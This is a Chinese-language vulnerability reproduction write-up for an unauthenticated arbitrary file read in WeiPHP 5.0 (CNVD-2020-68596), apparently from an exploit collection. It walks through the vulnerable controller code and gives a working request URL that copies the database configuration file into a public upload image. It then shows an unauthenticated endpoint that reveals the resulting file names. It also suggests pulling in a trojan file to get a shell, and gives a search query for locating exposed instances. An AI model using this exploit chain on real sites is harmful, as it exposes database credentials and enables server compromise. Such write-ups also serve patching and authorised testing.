







# WeiPHP5.0 download_imgage 前台文件任意读取 CNVD-2020-68596

## 漏洞描述

Weiphp5.0 存在前台文件任意读取漏洞，可以读取数据库配置等敏感文件

## 影响版本

<a-checkbox checked>Weiphp <= 5.0</a-checkbox></br>

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可


## 网络测绘

<a-checkbox checked>app="WeiPHP"</a-checkbox></br>

## 漏洞复现


漏洞函数文件:`application\material\controller\Material.php`


漏洞函数:`_download_imgage`





```php
public function _download_imgage($media_id, $picUrl = '', $dd = null)
    {
        $savePath = SITE_PATH . '/public/uploads/picture/' . time_format(NOW_TIME, 'Y-m-d');
        mkdirs($savePath);
        $cover_id = 0;
        if (empty($picUrl)) {
            // 获取图片URL
            $url = 'https://api.weixin.qq.com/cgi-bin/material/get_material?access_token=' . get_access_token();
            $param['media_id'] = $media_id;
            // dump($url);
            $picContent = post_data($url, $param, 'json', false);
            $picjson = json_decode($picContent, true);
            // dump($picjson);die;
            if (isset($picjson['errcode']) && $picjson['errcode'] != 0) {
                $cover_id = do_down_image($media_id, $dd['thumb_url']);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
            $picName = NOW_TIME . uniqid() . '.jpg';
            $picPath = $savePath . '/' . $picName;
            $res = file_put_contents($picPath, $picContent);
        } else {
            $content = wp_file_get_contents($picUrl);
            // 获取图片扩展名
            $picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
            if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
            }
            $picName = NOW_TIME . uniqid() . '.' . $picExt;
            $picPath = $savePath . '/' . $picName;
            $res = file_put_contents($picPath, $content);
            if (!$res) {
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
        }

        if ($res) {
            $file = array(
                'name' => $picName,
                'type' => 'application/octet-stream',
                'tmp_name' => $picPath,
                'size' => $res,
                'error' => 0
            );

            $File = D('home/Picture');
            $cover_id = $File->addFile($file);
        }
        return $cover_id;
}
```


首先注意到函数的标识为`public`，也就是这个函数是公共调用的，并且变量`picUrl`为可控变量


根据代码从上向下分析


```php
$savePath = SITE_PATH . '/public/uploads/picture/' . time_format(NOW_TIME, 'Y-m-d');
```


```php
else {
            $content = wp_file_get_contents($picUrl);
            // 获取图片扩展名
            $picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
            if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
            }
            $picName = NOW_TIME . uniqid() . '.' . $picExt;
            $picPath = $savePath . '/' . $picName;
            $res = file_put_contents($picPath, $content);
            if (!$res) {
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
```


分析传入变量 `picUrl` 的 `wp_file_get_contents`方法


```php
$content = wp_file_get_contents($picUrl);
```


函数文件位置 `application\common.php`





可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析


```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```


这里创建了有关当前时间的图片文件，并写入文件夹`/public/uploads/picture/` 下


我们先尝试控制变量 `$picUrl` 来写入数据库配置文件到图片中


```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```


查看目录`/public/uploads/picture/`，并用记事本打开写入的jpg文件





得到数据库配置文件的信息，既然这个变量可控，我们也可以通过这个方法下载木马文件，再通过解析漏洞或者文件包含等其他漏洞来getshell


在当前条件下并不知道文件名是什么，所以回到代码中继续寻找可以获取文件名的办法


```php
if ($res) {
            $file = array(
                'name' => $picName,
                'type' => 'application/octet-stream',
                'tmp_name' => $picPath,
                'size' => $res,
                'error' => 0
            );

            $File = D('home/Picture');
            $cover_id = $File->addFile($file);
        }
```


向下跟进 `addFile` 函数


函数位置:`application\home\model\Picture.php`





```php
function addFile($file)
    {
        $data['md5'] = md5_file($file['tmp_name']);
        $id = $this->where('md5', $data['md5'])->value('id');
        if ($id > 0) {
            return $id;
        }

        $info = pathinfo($file['tmp_name']);
        $data['path'] = str_replace(SITE_PATH . '/public', '', $file['tmp_name']);

        $data['sha1'] = hash_file('sha1', $file['tmp_name']);
        $data['create_time'] = NOW_TIME;
        $data['status'] = 1;
        $data['wpid'] = get_wpid();

        $id = $this->insertGetId($data);
        return $id;
    }
```


可以看到这部分代码写入了 Picture 表中


```php
$id = $this->insertGetId($data);
```


我们查看一下数据库的这个数据表，可以发现之前所上传的数据全部缓存在这个表里了


我们现在则需要找到不需要登录的地方来获得这些数据，所以可以全局去查找调用了这个 Picture 表的地方





找到一处可以利用的地方


```php
function user_pics()
    {
        $map['wpid'] = get_wpid();
        $picList = M('Picture')->where(wp_where($map))
            ->order('id desc')
            ->select();
        $this->assign('picList', $picList);
        exit($this->fetch());
    }
```


跟进 `get_wpid` 函数


```php
function get_wpid($wpid = '')
{
    if (defined('WPID')) {
        return WPID;
    } else {
        return 0;
    }
}
```


查看 WPID 的定义，文件位置在`config\weiphp_define.php`





定义值默认为 1，所以这里调用则可以获得数据库中Pictrue表的内容，间接的知道了文件内容以及文件名


访问地址: [http://webphp/public/index.php/home/file/user_pids](http://webphp/public/index.php/home/file/user_pids)





可以看到文件名，根据url地址访问选择下载即可